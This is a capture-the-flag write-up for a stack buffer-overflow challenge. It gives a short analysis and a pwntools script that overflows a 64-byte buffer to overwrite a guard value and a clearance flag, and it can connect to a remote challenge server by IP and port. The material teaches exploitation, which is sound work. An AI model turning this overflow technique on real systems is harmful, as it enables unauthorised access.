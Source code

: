 ```c
            if (terminal.clearance) {
                launch_sequence();
            } else {
                printf("Authorization insufficient for classified data access...\n\n");
                fflush(stdout); // Ensure output is flushed
            }
        }
    }
}
```

### Exploitation Steps 
#### Analysis
Same challenge as Nexus Corp Override, but with some noises. The solution is fill up the `databank` buffer, overwrite variable `guardian` with `0x4B434148`, and overwrite `clearance` with `0xff`.

#### Done
That is it. Just see the solution.

### Solution

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./mine_challenge_patched")

context.binary = elf
context.terminal = ["alacritty", "-e", "sh", "-c"]
dbginit = """
b main
"""


def conn():
    if args.REMOTE:
        r = remote("34.122.158.24", 6962)
    elif args.GDB:
        r = gdb.debug([elf.path], gdbscript=dbginit)
    else:
        r = process([elf.path])
    return r


def main():
    r = conn()

    guardian = 0x4B434148

    r.clean()

    payload = b'i'*64 + p32(guardian) + b'\xff'

    r.sendline(payload)
    r.recvuntil(b'Access granted! Launching escape pod with classified data!\n')
    flag = r.recvuntil(b'\n', drop=True).decode("ascii")
    r.clean()
    r.close()

    print()
    print(flag)
    print()
```